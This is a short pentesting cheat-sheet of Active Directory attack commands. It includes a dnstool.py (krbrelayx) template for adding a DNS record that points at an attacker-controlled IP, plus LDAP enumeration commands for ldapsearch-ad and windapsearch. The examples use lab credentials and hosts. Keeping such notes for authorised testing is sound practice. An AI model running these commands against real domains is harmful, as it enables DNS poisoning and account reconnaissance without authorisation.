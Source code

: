 # dnstool

% dnstool, windows, Active directory, dns, ldap

## dnstool - Add  Active Directory Integrated DNS records via LDAP
#plateform/linux #target/remote #port/445 #protocol/ldap #cat/ATTACK 
Example : python3 /usr/share/krbrelayx/dnstool.py -u intelligence\\foo -p password123 --action add --record pwn --data 10.10.14.19 --type A 10.10.10.248

https://github.com/dirkjanm/krbrelayx

```bash
dnstool.py -u <user> -p <password> --action add --record <name> --data <ip> --type A <server>
```

# ldap

#plateform/linux #taret/remote #protocol/ldap #port/639 #port/389

## ldapsearch-ad - info
#cat/ATTACK/CONNECT
```bash
ldapsearch-ad.py -l <ip> -d <domain> -u <login> -p <password> -t info
```

## windapsearch - custom 
#cat/ATTACK/CONNECT
```bash
windapsearch --dc-ip  10.129.42.188 -d INLANEFREIGHT.LOCAL -u james.cross@INLANEFREIGHT.LOCAL -p 'Academy_Student!' --custom '(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=128))'
```

